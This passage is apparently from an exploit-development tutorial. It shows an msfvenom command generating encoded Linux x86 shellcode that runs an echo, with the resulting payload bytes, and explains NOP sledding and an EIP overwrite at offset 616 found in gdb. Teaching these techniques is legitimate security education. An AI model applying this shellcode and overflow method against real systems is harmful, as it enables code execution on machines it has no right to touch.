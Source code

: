 
<h2>Shellcode</h2>

<p>There is theoretical value in going through a C shellcode disassembly by hand – compiling your own C code, getting the machine code, then substituting the “bad character” executions manually. For the purposes of this example however, we will leverage msfvenom to create a payload for us. </p>
<p>The purpose of the shellcode will be to execute an ‘echo “this is awesome”’. The options however are almost limitless.</p>
<p>Notice below the -b ‘\x00’. Since 0x00 is a null terminator we are telling msfvenom to avoid or substitute any commands that would have 0x00. More explanation into how this is done manually is covered in the shellcode chapter of <i>Shellcoder’s Handbook</i>.</p>

{% highlight python %}
msfvenom -p linux/x86/exec CMD='echo "This is awesome!"' -b '\0x00' -f python
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 86 (iteration=0)
x86/shikata_ga_nai chosen with final size 86
Payload size: 86 bytes
Final size of python file: 424 bytes
buf =  ""
buf += "\xb8\x0d\xdf\x57\xba\xd9\xc5\xd9\x74\x24\xf4\x5a\x31"
buf += "\xc9\xb1\x0f\x31\x42\x15\x83\xc2\x04\x03\x42\x11\xe2"
buf += "\xf8\xb5\x5c\xe2\x9b\x18\x05\x7a\xb6\xff\x40\x9d\xa0"
buf += "\xd0\x21\x0a\x30\x47\xe9\xa8\x59\xf9\x7c\xcf\xcb\xed"
buf += "\x67\x10\xeb\xed\xf2\x73\x83\x82\xdc\x51\x07\x35\x74"
buf += "\xe5\x87\xac\xf5\x29\xa6\x59\x9f\x5a\x47\xcb\x3a\xbc"
buf += "\xb5\x13\x92\xed\x30\xf2\xd1\x92"
{% endhighlight %}


<h2>Payload</h2>
<p align="left">
<img src="{{ '/assets/bof-presentation/slide11.PNG' | relative_url }}">
</p>
Let’s put this all together. Our plan is to combine a 616 byte payload that will control the execution flow into our custom shellcode. We know that EIP gets overwritten at 616, which means we can pack our shellcode in the buffer beforehand. We will leverage a technique called <b>NOP Sledding</b> and point EIP to an address within the NOP Sled region. 


<h2>Payload - Part 2</h2>
<p>
<img src="{{ '/assets/bof-presentation/slide12.PNG' | relative_url }}">
</p>

<p>A NOP Sled is a series of 0x90 (NOP - or No Operation) where the program does not perform any commands other than move to the next instruction. If we put a series of these together, as long as we redirect the execution flow anywhere within the NOP chunk, we would “slide” to the end of NOPs where our next execution command (in our case, the shellcode) is located.</p>
<p>We locate the address within our NOP Sled (what we want to set EIP to) by investigating the stack within gdb and determining the address 0xffffd0a4 where the sled begins.</p>
